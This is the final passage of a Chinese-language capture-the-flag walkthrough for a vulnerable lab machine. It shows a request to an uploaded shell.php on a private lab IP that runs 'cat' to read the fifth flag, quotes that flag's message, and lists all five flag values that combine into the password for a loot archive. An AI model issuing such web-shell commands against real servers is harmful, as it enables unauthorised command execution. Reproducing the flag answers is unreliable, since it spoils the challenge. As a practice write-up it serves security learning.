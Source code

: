 ```http
http://192.168.10.14:8008/NickIzL33t/P4TCH_4D4MS/uploads/shell.php?x=cat%20/.5.txt
```

<img src=".\图片\Snipaste_2023-08-20_22-43-13.png" alt="Snipaste_2023-08-20_22-43-13" style="zoom:80%;" />

得到第 5 个 flag

```
FIFTH FLAG!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!! YOU DID IT!!!!!!!!!!!!!!!!!!!!!!!!!!!! OH RICHARD DON'T RUN AWAY FROM YOUR FEELINGS!!!!!!!! Flag data: Buttcrack Ok, so NOW what you do is take the flag data from each flag and blob it into one big chunk. So for example, if flag 1 data was "hi" and flag 2 data was "there" and flag 3 data was "you" you would create this blob: hithereyou Do this for ALL the flags sequentially, and this password will open the loot.zip in Big Tom's folder and you can call the box PWNED. 
```

# 召唤神龙

前面已经知道在 `bigtommysenior` 用户下还存在一个 `LOOT.ZIP` 未解开…

```
flag1：B34rcl4ws
flag2：Z4l1nsky
flag3：TinyHead
flag4：EditButton
flag5：Buttcrack
```
